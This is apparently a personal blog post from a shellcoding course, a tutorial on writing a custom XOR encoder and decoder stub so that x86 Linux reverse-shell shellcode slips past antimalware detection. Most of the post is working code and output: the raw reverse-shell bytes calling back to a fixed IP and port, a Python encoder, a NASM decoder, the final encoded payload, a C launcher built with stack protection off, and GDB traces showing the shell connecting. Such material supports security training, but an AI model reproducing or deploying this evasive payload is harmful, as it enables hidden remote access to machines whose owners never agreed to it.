 ```yaml
---                                                                                                                                                                                                                                       
title: Custom Encoder
author: Stipe Marinovic
date: 2020-06-10 22:00:00 +0800                                                                                                                                                                                                           
categories: [Blogging, Tutorial]                                                                                                                                                                                                          
tags: [slae, shellcoding]                                                                                                                                                                                                                 
toc: true                                                                                                                                                                                                                                 
---                                                                                                                                                                                                                                       
```

                                                                                                                                                                                                                                          
** PAGE STILL UNDER CONSTRUCTION **   
## Introduction ##

Sending well known shell code to target machine would most probably be detected by antimalware solution . 
One way to bypass antimalware detection is to encode shell code and to have higher chances for sucessful bypass, custom encoder should be created and used.  
In this blog post we will go thru process of creating simple encoder and decored. 
As an example we will preform XOR operation on every shell code byte with value ```0x0F``` (encoding key) and add NOP (```\x90```) instrunction after every encoded shell code byte. 
This endocer will double shell code size which can be tricky if buffer space is small but for educational purposes we can ignore that. 
During decoding procedure, XOR operation will be preformed to restore original shell code and NOP instructions will be ignored.  

## Shell code ##

We can use reverse shell code and wrapper form previous [blog post](https://smarinovic.github.io/posts/Reverse-shell/) which tries to establish connection to defined remote address at defined port (in our case IP address is 192.168.192.159 and port is 4444). 

```
python wrapper.py 192.168.192.159 4444
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Encoder ##

Once we get opcodes for encoded shell code, we will use following python script to read thru defined bytearray (shell code opcodes) and preform XOR operation with ```0x0F``` key. 
After XOR opration, NOP (```\x90```) will be injected after every encoded byte. 
```
#!/usr/bin/python
import sys
import  random

# Custom reverse shell opcode (connect to 192.168.192.159 at port 4444)
shellcode = b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Encoder: XOR every byte with 0x0F and then insert x90

enc_shellcode=""                 # declare empty string

for x in bytearray(shellcode):   # for every byte in bytearray
   x=x^0x0f                      # preform XOR byte with 0x0F
   enc_shellcode+='0x%02x,'%x    # write encoded byte in new string
   enc_shellcode+='0x90,'        # add NOP (\x90) after every encoded byte in new string

# Print encoded opcode
print 'Encoded shellcode: ' + enc_shellcode
```
Encoded shell code is following:
```
python encoder.py 
Encoded shellcode: 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90,
```

## Decoder ##

To sucessfuly decode encoded shell code, we need to preform XOR operation for every shell code byte with previously defined key ```0x0F```. 
Every other byte will be skipped as it is NOP (```0x90```) instrunction. We will use following registers for decoding: 
* EAX for XOR operations
* ECX as counter for decoding stub
* EDX as pointer to beggining of encoded (and later decoded) shell code
* ESI as pointer to byte which we need to decode
* EDI as pointer to memory address where decoded byte will be placed overwriting original byte

Stub will overwrite original encoded shell code with decoded one, but since we will skip every other byte (\x90) we will have some "garbage" left on the stack. Since running our shell code is primary goal we won't bother with garbage code at this point in time.

```
global _start

section .text
_start:
    jmp short call_decoder

    decode:
        pop esi                  ; pop pointer to shellcode in ESI
        xor eax, eax             ; clear EAX - used for XOR operations
        xor ecx, ecx             ; clear EXC - used as counter
        xor edi, edi             ; clear EDI - used as pointer to decoded shell code destination
        mov cl, len              ; move length of the shellcode in cl
        sar cl, 1                ; divide by 2 (since we are skipping every 2nd byte which is \x90)
        mov edx, esi             ; save pointer to beggining of shellcode from ESI to EDX
        mov edi, esi             ; save pointer to beggining of shellcode from ESI to EDI

    decoder_loop:
        mov  al, byte [esi]      ; move one byte from address pointed by ESI
        xor byte al, 0x0f        ; XOR first byte of the shellcode with 0x0f
        mov [edi], al            ; move new value from AL to address pointed by ESI

        inc esi                  ; increment ESI (to get to new address)
        inc esi                  ; increment ESI (to skip \x90 - NOP)
        inc edi                  ; increment EDI - pointer to decoded shellcode

        dec ecx                  ; decrement ECX (counter) by 1
        cmp cl, 0x1              ; compare if CL is eaqual to 1 and is so - jump to shellcode pointed by EDX
        jnz decoder_loop
        jmp edx

    call_decoder:
        call decode
        shellcode: db 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90
        len equ $-shellcode

```

Assembly code needs to be compiled and linked in the usual way.. 
```
nasm -f elf32 -o decoder.o decoder.nasm
ld -z execstack -o decoder decoder.o
```

But to get opcode we need to modify the usual objdump/cut command as output has more that 6 columns, so instead of ```cut -f1-6``` we need to use ```cut -f1-7``` as follows:

```
objdump -d $1 |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

With modified command, extracted opcode is following:
```
"\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90"
```

## Seeing decoder in action ##

Next, we can use skeleton code to run and test sucessfull decoding. To compile it following command should be used:

```
gcc -fno-stack-protector -z execstack -m32 skeleton.c -o encoded_revshell -g
```

Skeleton file with encoded shell code:

```
#include <stdio.h>

unsigned char shellcode[] = "\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90";

int main()
{
        int (*ret)() = (int(*)())shellcode;
        printf("Size of shellcode: %d bytes.\n", sizeof(shellcode)); 
        ret();
}
```

By stepping thu program with GDB we can observe shell code decoding. ESI register is used for storing pointer to beggining of encoded shellcode.  
At the beggining of decoding stub we can see that ESI register is pointing to the beggining of encoded shellcode which is located at memory address: ```0x404067```. 

```
gdb-peda$ info register esi
esi            0x404067            0x404067
```

So in order to observe decoing, we will monitor first 10 bytes starting at ```0x404067``` memory address.
Before decoding starts we can see that memory address ```0x404067``` contain encoded shell code (0x3e, 0x90, 0xcf, 0x90, 0x3e, 0x90 ...)

* Initial data on address ```0x404067```  

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x3e    0x90    0xcf    0x90    0x3e    0x90    0xd4    0x90
0x40406f <shellcode+47>:        0x3e    0x90
```

* content of the same address after few itterations:  
We can see that ```0x3e``` is decoded to ```0x31``` (which is result of following instruction ```XOR 0x0F, 0x3e```) and ```0x90``` is ignored and overwritten.

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0x90    0xd4    0x90
 decoded 1st opcode ------------^^^^
 NOP is replaced with 2nd opcode -------^^^^
 decoded 3rd opcode ----------------------------^^^^
 etc.
```

* content of the same address after some more itterations:  
We can see that decoded shell code does not contain added NOPs (```0x90```) and that all opcodes are XORed (0x3e XOR 0f = 0x31, 0xcf XOR 0x0f = 0xc0, etc.). Decoded opcodes overwrites original encoded opcodes:
```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0xc9    0x31    0xd2
0x40406f <shellcode+47>:        0x31    0xf6
```

Reverse shell is sucessfuly established once decoding is finished as show on following scren shot.

![Custom decoder working](https://smarinovic.github.io/assets/img/slae_00018.png)
